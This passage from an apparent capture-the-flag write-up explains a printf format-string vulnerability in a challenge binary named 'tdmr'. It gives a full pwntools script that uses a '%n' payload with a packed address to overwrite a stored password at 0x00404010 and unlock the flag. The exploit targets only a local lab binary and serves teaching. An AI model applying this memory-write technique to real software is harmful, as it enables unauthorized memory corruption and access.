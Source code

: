 ![Printf](/assets/images/TDMR/printf-write.png)
The address where we want to write to needs to be the 8th parameter to the `printf` call, excluding the format string. The first 6 parameters were passed via registers, and the rest are passed on the stack. So the 8th argument excluding the format string `0x00404010`, the address we want to write to. The final Python exploitation script using [pwntools](https://docs.pwntools.com/en/stable/):

```python
import struct 
import binascii

from hexdump import hexdump

from pwn import *

bin_path = './tdmr'
e = ELF(bin_path)

proc = process(bin_path)

print(proc.recvrepeat(3))

proc.send(b'3\n')
print(proc.recvrepeat(5))

locked_memory = 0x00404010

proc.send(b'%322419390x%8$nX' + struct.pack('<Q', locked_memory) + b'\n')
buf = proc.recvrepeat(40) # Don't print the buffer because it's huge and it will crash!
print("Buf len: %d(0x%x)" % (len(buf), len(buf)))
print(buf[-100:])

```

Which as expected modifies the password and the code unlocks the flag:
